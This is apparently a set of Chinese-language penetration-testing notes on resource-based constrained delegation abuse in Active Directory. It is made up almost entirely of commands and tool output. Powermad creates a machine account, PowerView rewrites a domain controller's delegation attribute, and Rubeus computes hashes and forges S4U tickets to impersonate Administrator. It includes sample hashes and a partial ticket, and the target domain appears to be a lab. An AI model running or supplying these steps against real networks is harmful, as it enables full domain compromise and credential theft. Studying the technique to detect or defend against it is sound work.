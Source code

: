 	用户发送一个 TGS 来访问服务（“服务 A”），如果允许该服务委托给另一个预定义服务（“服务 B”），那么服务 A 可以向身份验证服务提供该 TGS用户为服务 B 提供并获取用户的 TGS。
	导入Powermad和Powerview
	>PowerShell.exe -ExecutionPolicy Bypass
	>Import-Module .\powermad.ps1
	>Import-Module .\powerview.ps1
	获取用户 SID
	>$AttackerSID = Get-DomainUser SvcJoinComputerToDom -Properties objectsid | Select -Expand objectsid
	>$ACE = Get-DomainObjectACL dc01-ww2.factory.lan | ?{$_.SecurityIdentifier -match $AttackerSID}
	>$ACE
	>ConvertFrom-SID $ACE.SecurityIdentifier
	利用MachineAccountQuota创建计算机帐户并为其设置 SPN
	New-MachineAccount -MachineAccount swktest -Password $(ConvertTo-SecureString 'Weakest123*' -AsPlainText -Force)
	重写 DC 的AllowedToActOnBehalfOfOtherIdentity属性
	$ComputerSid = Get-DomainComputer swktest -Properties objectsid | Select -Expand objectsid
	$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
	$SDBytes = New-Object byte[] ($SD.BinaryLength)
	$SD.GetBinaryForm($SDBytes, 0)
	Get-DomainComputer dc01-ww2.factory.lan | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
	$RawBytes = Get-DomainComputer dc01-ww2.factory.lan -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
	$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
	$Descriptor.DiscretionaryAcl

	$SID_FROM_PREVIOUS_COMMAND = Get-DomainComputer MACHINE_ACCOUNT_NAME -Properties objectsid | Select -Expand objectsid
	$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$SID_FROM_PREVIOUS_COMMAND)"; $SDBytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDBytes, 0); Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

	StandIn_Net35.exe --computer dc01 --sid SID_FROM_PREVIOUS_COMMAND
	使用 Rubeus 从密码中获取哈希

	Rubeus.exe hash /password:'Weakest123*' /user:swktest$  /domain:factory.lan
	[*] Input password             : Weakest123*
	[*] Input username             : swktest$
	[*] Input domain               : factory.lan
	[*] Salt                       : FACTORY.LANswktest
	[*]       rc4_hmac             : F8E064CA98539B735600714A1F1907DD
	[*]       aes128_cts_hmac_sha1 : D45DEADECB703CFE3774F2AA20DB9498
	[*]       aes256_cts_hmac_sha1 : 0129D24B2793DD66BAF3E979500D8B313444B4D3004DE676FA6AFEAC1AC5C347
	[*]       des_cbc_md5          : BA297CFD07E62A5E
	使用我们新创建的机器帐户模拟域管理员

	.\Rubeus.exe s4u /user:swktest$ /rc4:F8E064CA98539B735600714A1F1907DD /impersonateuser:Administrator /msdsspn:cifs/dc01-ww2.factory.lan /ptt /altservice:cifs,http,host,rpcss,wsman,ldap
	.\Rubeus.exe s4u /user:swktest$ /aes256:0129D24B2793DD66BAF3E979500D8B313444B4D3004DE676FA6AFEAC1AC5C347 /impersonateuser:Administrator /msdsspn:cifs/dc01-ww2.factory.lan /ptt /altservice:cifs,http,host,rpcss,wsman,ldap

	[*] Impersonating user 'Administrator' to target SPN 'cifs/dc01-ww2.factory.lan'
	[*] Using domain controller: DC01-WW2.factory.lan (172.16.42.5)
	[*] Building S4U2proxy request for service: 'cifs/dc01-ww2.factory.lan'
	[*] Sending S4U2proxy request
	[+] S4U2proxy success!
	[*] base64(ticket.kirbi) for SPN 'cifs/dc01-ww2.factory.lan':

	    doIGXDCCBligAwIBBaEDAgEWooIFXDCCBVhhggVUMIIFUKADAgEFoQ0bC0ZBQ1RPUlkuTEFOoicwJaAD
	    AgECoR4wHBsEY2lmcxsUZGMwMS[...]PMIIFC6ADAgESoQMCAQOiggT9BIIE
	    LmZhY3RvcnkubGFu

	[*] Action: Import Ticket
	[+] Ticket successfully imported!